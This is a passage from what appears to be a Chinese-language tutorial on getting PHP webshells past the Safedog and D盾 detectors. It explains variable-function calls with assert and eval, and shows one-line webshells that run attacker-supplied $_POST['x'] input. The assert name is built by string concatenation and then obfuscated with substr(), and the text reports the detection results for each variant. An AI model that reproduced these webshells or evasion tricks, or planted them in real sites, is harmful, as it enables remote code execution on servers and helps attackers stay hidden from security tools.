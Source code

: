 eval() 不能作为函数名动态执行代码，官方说明如下：eval 是一个语言构造器而不是一个函数，不能被可变函数调用。

**可变函数**：通过一个变量，获取其对应的变量值，然后通过给该值增加一个括号 ()，让系统认为该值是一个函数，从而当做函数来执行。比如 assert 可这样用：

```php
$f='assert';
$f(...);
#未过D盾
```

此时 `$f` 就表示 `assert`，所以 `assert` 关键词更加灵活，但是 PHP7 中，`assert` 也不再是函数了，变成了一个语言结构（类似`eval`），不能再作为函数名动态执行代码.

### 2.字符串变形

安全狗的规则非常死板，字符串相关函数简单变形一下关键词就可以绕过安全狗的检测了，D 盾的话要严格一点。PHP 内置了一些字符串函数，以下都可以过安全狗。

#### substr()

```php
substr(string,start,length)
```

substr() 函数返回字符串的一部分。

| 参数     | 描述                                                         |
| :------- | :----------------------------------------------------------- |
| *string* | 必需。规定要返回其中一部分的字符串。                         |
| *start*  | 必需。规定在字符串的何处开始。**正数** - 在字符串的指定位置开始; **负数** - 在从字符串结尾开始的指定位置开始; **0** - 在字符串中的第一个字符处开始 |
| *length* | 可选。规定被返回字符串的长度。默认是直到字符串的结尾。**正数** - 从 *start* 参数所在的位置返回的长度; **负数** - 从字符串末端返回的长度 |

首先我们来一个基础的字符串拼接：

```php
<?php 
    $a = 'a'.'s'.'s'.'e'.'r'.'t';
    $a($_POST['x']);
?>
```

也许在很久以前这个是可以过 安全狗的，但是直接扑街了，检测结果如下：

| 安全狗                       | D盾                 |
| :--------------------------- | :------------------ |
| 1 个安全风险 assert 变量函数 | 级别 5 变量函数后门 |

此时我们使用 substr() 函数稍微截断一下：

```php
<?php 
    $a = substr('1a',1).'s'.'s'.'e'.'r'.'t';
    $a($_POST['x']);
?>
```

![0MP7yn.png](https://s1.ax1x.com/2020/10/01/0MP7yn.png)
